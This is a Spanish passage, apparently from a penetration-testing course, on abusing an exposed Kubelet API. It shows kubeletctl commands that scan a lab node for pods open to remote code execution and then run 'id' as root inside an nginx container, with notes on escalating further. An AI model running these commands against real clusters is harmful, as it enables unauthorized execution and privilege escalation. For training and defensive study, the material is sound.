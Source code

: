 Para interactuar de manera efectiva con las cápsulas dentro del entorno Kubernetes, es importante tener una comprensión clara de los comandos disponibles. Un enfoque que puede ser particularmente útil es utilizar el`scan rce`mandar`kubeletctl`. Este comando proporciona ideas valiosas y permite una gestión eficiente de los POD.

#### Kubelet API - Comandos disponibles

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 scan rce

┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                   Node with pods vulnerable to RCE                                  │
├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
│   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│   │              │                                    │             │                         │ RUN │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
│ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
```

También es posible que nos involucremos con un contenedor de manera interactiva y obtengan información sobre el alcance de nuestros privilegios dentro de él. Esto nos permite comprender mejor nuestro nivel de acceso y control sobre el contenido del contenedor.

#### API de Kubelet - Ejecución de comandos

  Kubernetes

```shell-session
cry0l1t3@k8:~$ kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

uid=0(root) gid=0(root) groups=0(root)
```

La salida del comando muestra que el usuario actual que ejecuta el`id`El comando dentro del contenedor tiene privilegios raíz. Esto indica que hemos obtenido acceso administrativo dentro del contenedor, lo que podría conducir a vulnerabilidades de escalada de privilegios. Si obtenemos acceso a un contenedor con privilegios raíz, podemos realizar más acciones en el sistema host u otros contenedores.

---
